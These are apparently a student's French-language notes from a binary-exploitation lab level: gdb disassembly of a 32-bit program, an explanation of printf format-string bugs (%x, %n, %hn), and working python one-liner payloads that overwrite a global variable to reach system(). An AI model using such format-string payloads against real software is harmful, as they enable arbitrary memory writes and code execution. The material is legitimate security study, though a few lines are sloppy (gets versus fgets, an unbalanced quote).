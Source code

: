 (gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave  
   0x08048526 <+12>:    ret    

On a un main qui ne fait pas grand chose a part call la fonction v

(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave  
   0x08048519 <+117>:   ret   

On a encore un call a gets qui va surement nous servir pour faire un overflow

Mettons un b* dans v() apres le gets
Analysons les informations que nous avons

On a un seved eip : 0x8048525 
(gdb) x/i 0x8048525
   0x8048525 <main+11>: leave

On a eax qui pointe vers 0xbffff520 (notre chaine)
x/s 0xbffff520
0xbffff520:      "\n"

Ensuite notre buf est envoye a printf
0x804988c

0x080484da <+54>:    mov    0x804988c,%eax
                                
# Charge la valeur à l'adresse 0x804988c DANS eax
syntaxe AT&T
mov source, destination

syntaxe Intel
mov destination, source

A quoi correspond 0x804988c ?

(gdb) x/x 0x804988c
0x804988c <m>:  0x00000000

On voit un <m> qui apparait ici que je n'avais jamais vu avant
En cherchant un peu, j'ai vu que cette adresse etait dans la partie .bss du programme
0804988c  uint32_t m = 0x0
Variable gloable ?

b *v+62

Exploit printf ?

On passe en argument à notre programme des formateurs. Le programme se retrouve donc à exécuter
la chose suivante :
   printf("%x%x%x%x");
Seulement vous on remarque que la fonction printf() n'a pas d'arguments pour remplacer les formateurs dans la chaine.
Elle affiche donc ce qu'elle a sous la main, c'est à dire les valeurs présentes sur la pile.

Types de formateurs

Formateurs directs (comme %x) : Affichent directement la valeur ciblée sur la pile

Formateurs pointeurs (comme %s) : Affichent la valeur située à l'adresse ciblée

Formateur spécial %n : Écrit en mémoire le nombre de caractères affichés avant lui

Mécanisme d'exploitation
Fonctionnement

La fonction printf() parcourt la pile 4 octets par 4 octets pour trouver les valeurs à afficher

Sans arguments, printf() affiche les valeurs présentes sur la pile
Le formateur %n permet d'écrire en mémoire à une adresse spécifique
Technique d'exploitation

   Utilisation de %hn pour écrire 2 octets à la fois

Possibilité de contrôler le flux d'exécution en écrasant l'adresse de retour (EIP)
Utilisation de la notation %Nd pour générer des padding de taille contrôlée

Impact
Cette vulnérabilité permet notamment :

La lecture de données sensibles en mémoire
L'écriture à des adresses arbitraires
L'exécution de code arbitraire via la redirection du flux d'exécution


python -c "print '\x8c\x98\x04\x08' + ' + '%4$n'"

Le symbole $ dans %4$n est un paramètre de position qui permet d'accéder directement au 4ème argument sur la pile 

0xbffff520 adresse du buf

x/x 0xbffff520
0xbffff520:     0x0804988c --> CORRESPOND A NOTRE GLOBALE :D

Plus qu'a modifier sa valeur

"AAAA + "%x %x %x %x %x"

printf exploit --> 
r < <(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
(python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"'; cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"'; cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"'; cat) | ./level3
